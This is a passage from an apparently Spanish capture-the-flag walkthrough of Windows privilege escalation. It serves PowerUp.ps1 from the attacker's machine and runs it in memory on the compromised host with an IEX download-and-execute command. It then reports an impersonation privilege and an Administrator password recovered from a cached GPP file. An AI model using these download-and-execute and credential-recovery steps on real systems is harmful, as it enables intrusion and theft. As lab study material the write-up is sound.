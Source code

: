 <figure><img src="../../../../../.gitbook/assets/1006_vmware_ziqzb1DHqN.png" alt=""><figcaption></figcaption></figure>

Modificaremos el script y en la última línea añadiremos (Invoke-AllChecks) para así obtener toda la información de posibles vectores para escalar privilegios.

Nos montaremos un servidor web con Python para compartir dicho script y des de la terminal donde hemos ganado acceso al equipo, procederemos a ejecutar el script que tenemos alojado en nuestra Kali importándolo en memoria con IEX.

Así obtendremos un reporte completode vulnerabilidades potenciales y configuraciones inseguras que podemos aprovechar.

{% code overflow="wrap" %}
```bash
catnp PowerUp.ps1| tail -n 1

python3 -m http.server 80

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.13/PowerUp.ps1')
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/1008_vmware_bUCv0ayc4j.png" alt=""><figcaption></figcaption></figure>

### Cached GPP Files

En el resultado del escaneo con **PowerUp.ps1** comprobamos que tenemos el privilegio de (SeImpersonatePrivilege) lo que podríamos directamente impersonar al usuario "Administrator".

Y también vemos que ha encontrado un archivo .xml dentro del equipo en el cual disponía de las credenciales GPP del usuario Administrator, ya nos hace el (gpp -decrypt) y nos aparece la contraseña en texto plano.
